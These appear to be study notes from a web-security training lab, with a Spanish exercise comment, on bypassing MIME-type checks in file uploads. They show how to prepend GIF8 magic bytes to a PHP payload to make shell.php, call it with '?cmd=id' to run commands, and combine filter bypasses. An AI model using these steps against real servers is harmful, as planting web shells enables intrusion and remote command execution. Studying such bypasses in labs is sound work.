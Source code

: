 
## MIME-Type Validation
MIME-Type determines the file type based on its content structure. Web servers inspect the file's **magic bytes** to classify the type.

### Example Validation Code
```php
$type = mime_content_type($_FILES['uploadFile']['tmp_name']);

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```

### Manipulating MIME-Type
To bypass MIME-Type validation:
1. Modify the file's magic bytes to match an allowed type (e.g., `GIF8` for GIF images).
   ```bash
   echo "GIF8" > file.jpg
   file file.jpg
   ```
2. Upload the modified file while keeping the malicious payload.

### Example
- Add `GIF8` to the beginning of the file:
  ```
  echo "GIF8" | cat - payload.php > shell.php
  ```
- Upload the file.
- Verify execution:
  ```
  http://SERVER_IP:PORT/profile_images/shell.php?cmd=id
  ```

---

## Combining Content-Type and MIME-Type Bypasses
To bypass robust filters, try combinations such as:
- Allowed MIME type with disallowed Content-Type.
- Allowed Content-Type with disallowed extension.
- Disallowed MIME/Content-Type with allowed extension.

Depending on the web server's configuration, these techniques can exploit validation weaknesses to execute malicious payloads.


Ejercicio6
   The above server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to ensure the uploaded file is an image. Try to combine all of the attacks you learned so far to bypass these filters and upload a PHP file and read the flag at "/flag.txt"
      En este tienes que ponerlo en jpg y agregarle el GIF8 para que acepte la entrada de la imagen, sino no la agregara y no podras usar la web shell

---